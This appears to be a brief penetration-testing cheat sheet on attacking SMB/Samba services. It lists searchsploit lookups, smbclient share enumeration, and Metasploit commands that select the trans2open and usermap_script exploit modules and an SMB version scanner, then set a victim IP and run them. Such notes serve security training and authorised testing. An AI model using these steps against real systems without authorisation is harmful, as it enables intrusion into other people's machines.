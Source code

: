 # SMB Exploitation Process

1. **Search for Exploits**
   - Use `searchsploit` to find exploits for the SMB version:
     ```sh
     searchsploit samba2.2
     ```
   - Start Metasploit Console:
     ```sh
     msfconsole
     ```
   - Search for exploit module:
     ```sh
     search trans2open
     ```
   - Use the exploit module:
     ```sh
     use 1
     ```
   - Show options and set target IP:
     ```sh
     show options
     set RHOST {ip address of victim}
     ```

2. **Access File Share**
   - Use smbclient to list shares:
     ```sh
     smbclient -L {ip address}
     ```

3. **Scan SMB with Auxiliary**
   - Search for SMB version scanner:
     ```sh
     search smb_version
     ```
   - Use auxiliary scanner module:
     ```sh
     use auxiliary/scanner/smb/smb_version
     ```
   - Set target IP and run the exploit:
     ```sh
     set RHOSTS {ip address of target}
     exploit
     ```

4. **Find Exploits on Google for SMB**
   - Use Google to search for exploits:
     ```
     Windows XP SP3 exploit
     ```
   - Look for exploit pages on Rapid7 or Exploit-DB.
   - Follow the steps provided on the exploit page.

5. **Exploiting SMB with Metasploit**
   - Start Metasploit Console and PostgreSQL service:
     ```sh
     msfconsole
     service postgresql start
     ```
   - Use the exploit module:
     ```sh
     use exploit/multi/samba/usermap_script
     ```
   - Set target IP and run the exploit:
     ```sh
     set RHOSTS {IP ADDRESS}
     show targets
     run
     ```
